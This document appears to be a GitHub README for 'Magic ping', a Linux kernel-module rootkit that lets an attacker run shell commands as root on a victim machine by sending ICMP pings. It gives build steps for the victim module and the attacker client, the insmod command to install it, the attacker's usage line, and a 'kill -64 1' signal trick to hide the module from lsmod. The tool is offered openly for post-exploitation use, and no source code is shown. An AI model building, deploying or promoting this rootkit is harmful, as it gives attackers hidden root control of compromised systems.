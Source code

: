 Magic ping - shell execution

<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) 

![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
![Tested on - 5.13.0-40-generic #45~20.04.1-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.13.0--40--generic_%2345~20.04.1--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>

## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 

## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```
Use `lsmod` to check.


## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)

